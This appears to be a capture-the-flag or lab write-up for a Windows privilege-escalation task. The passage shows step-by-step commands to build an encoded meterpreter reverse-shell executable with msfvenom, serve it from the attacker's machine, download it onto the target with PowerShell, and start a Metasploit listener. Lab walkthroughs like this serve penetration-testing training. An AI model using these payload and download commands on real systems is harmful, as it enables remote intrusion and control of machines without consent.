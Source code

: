 # [Task 4] Windows Privilege Escalation

## #4.0 - Instructions

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

## #4.1

**Instructions**

Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom.

If you don't know how to do this, I suggest completing the Metasploit room first!

Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!

**Answer**

Let's generate our executable with msfvenom (make sure you select a different port as the one used for the previous reverse shell):

~~~
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.0.54 LPORT=2345 -f exe -o revshell.exe
~~~

Now, let's download the payload from the server. To do that, we'll first start a web server (from the same location where our exe is):

~~~
$ python3 -m http.server
~~~

Now, on the reverse shell, enter the following command:

~~~
powershell -c "Invoke-WebRequest -Uri 'http://10.9.0.54:8000/revshell.exe' -OutFile 'c:\windows\temp\revshell.exe'"
~~~

Now, open `msfconsole`:

~~~
$ msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.0.54
LHOST => 10.9.0.54
msf5 exploit(multi/handler) > set LPORT 2345
LPORT => 2345
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.0.54:2345 
~~~
